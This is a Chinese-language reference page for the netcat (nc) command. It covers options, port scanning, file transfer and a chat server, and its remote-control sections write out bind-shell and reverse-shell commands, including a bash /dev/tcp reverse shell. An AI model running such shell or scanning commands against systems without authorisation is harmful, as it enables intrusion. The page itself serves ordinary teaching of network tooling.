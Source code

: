 # nc

　　**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

### 语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

### 选项

```bash
--4   只使用IPV4
-6    只使用IPV6
-c    使用tls连接或者监听
-D    启用socket调试开关
-l    使用监听模式，管控传入的资料。
-n    直接使用IP地址，而不通过域名服务器。
-r    乱数指定本地与远端主机的通信端口。
-u    使用UDP传输协议。
-v    显示指令执行过程。
-z    使用0输入/输出模式，只在扫描通信端口时使用。
-h    在线帮助
-g <网关>       设置路由器跃程通信网关，最多可设置8个。
-G <指向器数目>  设置来源路由指向器，其数值为4的倍数。
-i <延迟秒数>    设置时间间隔，以便传送信息及扫描通信端口。
-o <输出文件>    指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p <通信端口>    设置本地主机使用的通信端口
-s <来源位址>    设置本地主机送出数据包的IP地址。
-w <超时秒数>    设置等待连线的时间。
```

### 实例

#### **TCP端口扫描**

```bash
# 扫描192.168.0.3 的端口 范围是 1-100
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open

# **扫描UDP端口** 扫描192.168.0.3 的端口 范围是 1-1000
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  
```

　　‍

#### **扫描指定端口**

```bash
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

　　查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```bash
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```

#### **文件传输**

```bash
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```bash
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

#### **远程控制**

```bash
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```bash
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

#### **反弹shell**

```bash
# 控制端执行下面的命令：
nc -lvnp 8888
```

```bash
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

#### 创建一个简单的聊天服务器

　　在两个或多个主机之间创建在线聊天的过程与传输文件的方法是基本相同的。

　　在第一台主机上启动一个 Netcat 进程以侦听端口 5555：

```bash
nc -l 5555
```

　　在第二台主机上，运行以下命令以连接到侦听端口：

```bash
nc first.host.com 5555
```

　　现在，如果你键入一条消息并按回车，它将同时显示在两台主机上。

　　要关闭连接，请键入 `CTRL+C`​。
